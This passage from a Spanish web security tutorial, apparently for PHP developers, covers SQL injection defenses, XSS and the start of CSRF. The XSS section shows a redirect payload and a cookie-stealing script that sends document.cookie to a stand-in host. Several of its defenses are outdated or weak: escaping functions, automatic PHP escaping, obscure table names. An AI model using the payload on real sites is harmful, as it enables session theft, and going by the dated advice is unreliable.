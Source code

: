 * **Filtrar los datos procedentes de los formularios. SIEMPRE**. Por ejemplo, si los nombres de usuario sólo pueden estar compuestos por letras y números, no se deben permitir caracteres como comillas, puntos y coma, asteriscos, almohadillas, etc.
* **Escapar los caracteres especiales** de cualquier dato de entrada antes de enviarlo al gestor de bases de datos. Por ejemplo, *mysql_real_escape_string()* coloca barras invertidas antes de ciertos caracteres. *addslashes()* hace algo parecido. Esto hace que ya no se ejecuten como sentencias SQL. En las versiones recientes de PHP, el escape de caracteres especiales se hace automáticamente con cualquier dato que llegue por GET o POST.
* **Usar nombres poco habituales para las tablas** de la base de datos. Una estrategia frecuente es utilizar un identificador significativo (como *users* para la tabla de usuarios) y añadirle varios caracteres o números aleatorios (así, la tabla se convertiría en algo como *users_58283*). Ese sufijo aleatorio se suele almacenar en un archivo de configuración para que esté accesible para todos los scripts del programa. Esta técnica tan simple dificulta enormemente cualquier intento de acceso fraudulento a las tablas.

### 3.4.3. XSS (cross site scripting)

El ataque por XSS consiste en **ejecutar código de scripting malicioso** (básicamente, Javascript) en el contexto del sitio web.

Hay muchas formas de hacer XSS. Por ejemplo, imagínate que tenemos un blog de noticias y que un usuario malicioso publica, *como parte del texto de una entrada*, este string:

```javascript
<script>document.href = 'https://otrositio.com';</script>
```

¿Qué ocurriría? Pues que cada vez que alguien visite nuestro portal y cargue esa noticia, será redirigido a *otrositio.com*, donde probablemente pretenderán venderle medicamentos para la disfunción eréctil o algo por el estilo.

Otra cosa que suele hacerse con XSS es robar datos de las *cookies* del cliente, aprovechando que Javascript puede acceder a las *cookies*. Para ello, el atacante solo tiene que inyectar un código como este:

```javascript
<script>document.location = 'https://otrositio.com?cookies=' + document.cookie</script>
```

Para evitar los ataques XSS, la estrategia más útil, otra vez, es **filtrar todos los datos externos**. El filtrado de datos es sencillo de hacer y te ahorrará mogollón de problemas. En resumen: **nunca** te fíes de ningún dato que provenga de un formulario si no lo has filtrado antes y le has quitado todos los caracteres sospechosos.

### 3.4.4. CSRF o XSRF (cross site request forgery)

Este tipo de ataques **explota la confianza que tiene un sitio web en la identidad de un usuario**. Es decir, se toma a un usuario válido registrado en un sitio (por ejemplo, sitio-confiable.com) y, desde otro sitio (por ejemplo, sitio-maligno.com), se le fuerza a hacer algo chungo en sitio-confiable.com.

Veámoslo con un ejemplo. Supón que eres un usuario administrador en sitio-confiable.com. Para borrar a un usuario de tu web (o cualquier otro recurso), lanzas una URL como https://sitio-confiable.com/usuario/delete/28 (donde 28 es el id del usuario). Este tipo de URLs son muy habituales en las aplicaciones web.
